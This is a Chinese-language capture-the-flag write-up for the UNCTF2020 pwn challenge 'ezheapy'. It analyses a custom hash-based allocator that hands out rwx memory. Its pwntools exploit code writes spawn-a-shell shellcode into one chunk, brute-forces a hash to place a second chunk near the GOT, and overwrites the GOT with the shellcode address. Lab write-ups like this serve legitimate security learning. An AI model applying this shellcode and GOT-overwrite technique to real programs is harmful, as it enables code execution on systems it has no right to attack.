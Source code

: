 
## ezheapy
- 题目描述
- 题目附件：[ezheapy](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/unctf2020/pwn/ezheapy/ezheapy)
- 考察点：整数哈希
- 难度：不会

### 程序分析

比赛时看见是heap就没做，赛后看了看。

作者自己写的`hcalloc`，用的是整数哈希，可分配一片权限是`rwx`的内存，并且可编辑其内容。

### 解题思路

先随便分配一块内存，写入shellcode。再分配一块内存，爆破哈希值到got表附近，由此可编辑got表为shellcode地址。

``` python
def add(sz):
    sla('5. Exit', '1')
    sla('How big is your paste (bytes)?', str(sz))

def edit(idx,data):
    sla('5. Exit', '2')
    sla('What paste would you like to write to?', str(idx))
    sla('Enter your input', data)

add(1024)
edit(0,asm(shellcraft.sh()))

add(0x4a15b) # hash(0x4a15b) == 0x80492eb == gotbase-0xbed
edit(1,'A'*0xbed+p64(0xdde6c400)*20) # hash(1024) == 0xdde6c400
```

> 爆破hash可以不是那么精准，只要能read覆盖到got表即可
>
> 可以忽略后三位进行爆破：

``` python
#!/usr/bin/python3
for i in range(0xffffffff): 
    tmp = (0x9e3779b1*i)&0xffffffff
    print(hex(i),hex(tmp)) 
    if tmp|0xfff == 0x8049ed8|0xfff: 
        input('next?')
```

### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/unctf2020/pwn/ezheapy) 

